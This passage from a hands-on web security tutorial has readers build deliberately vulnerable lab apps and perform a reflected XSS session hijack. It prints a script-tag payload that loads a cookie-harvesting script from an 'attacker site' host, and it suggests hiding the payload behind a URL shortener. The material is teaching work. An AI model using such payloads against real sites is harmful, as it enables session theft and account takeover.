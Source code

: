 [Samy](http://motherboard.vice.com/read/the-myspace-worm-that-changed-the-internet-forever), the first big wake-up call. 

[Jira](https://www.netsparker.com/blog/web-security/apacheorg-and-jira-incident/), XSS as one link in a chain.

[Wordpress plugins](http://wptavern.com/xss-vulnerability-affects-more-than-a-dozen-popular-wordpress-plugins)


Getting Started
-----

This blog post is intended to be a hands-on discussion - at various points I'll ask you to do things to the sample applications. Obviously you don't have to - I'm not your boss - but I certainly found doing it a better way to learn than reading about it. This is a bit of a truism, but security is something of a special case, as it you need to get into the mind-set of actually trying to subvert and break your own handiwork.  

* Clone the [Sandboxed Containers Repo](https://github.com/WPFerg/SandboxedContainers) and check out the SQL_Injection branch
* Create the sample apps (and new databases) by running `vagrant up` from the sub-folders of the 'samples' folder.  There are two apps, the MEAN stack accessible at `10.10.10.10`, and Jade, Express & MySQL at `10.10.10.20`. These apps have basic user login and post making facilities, inspired by *Write Modern Web Apps with the MEAN Stack* by Jeff Dickey. There's a third site, an 'attacker site' which collects data from the other two apps at `10.10.10.30`.

Moving on from a previous article
-----

If you're moving on from a different article in this series you may want to clean up your system somewhat:

* Kill the sample app VMs with vagrant destroy.
* Recreate the sample apps (and new databases) with vagrant up. 


Session hijack via Reflected XSS
-----
Before you start this, make sure that you have the Attacker's Site example also running (at `10.10.10.30`).

**Jade\_Express\_MySQL**

We're going to use the search feature to send cookies to the attacker site. The attack payload is a pre-built hijack script on the attacker site, carefully crafted for this target system (e.g. single quotes, not double) so it doesn't upset the database query that looks for matching text in posts. You can deploy it either in the search box or the URL, but for a social-engineering assisted attack, you'd put it in the URL, and maybe obfuscate it with a URL shortener.

    <script src='//10.10.10.30/exploits/session.js'></script>

Now visit the attacker website and you'll see your session cookie has been harvested.  What's happened here is that the server has echoed back the search term verbatim to the client, which executed the harvesting script.

Fire up another browser and change your cookie to the session ID you've just harvested in your plugin of choice (EditThisCookie for Chrome, or Advanced Cookie Manager for Firefox). You've just performed a session hijack without a great deal of effort. 

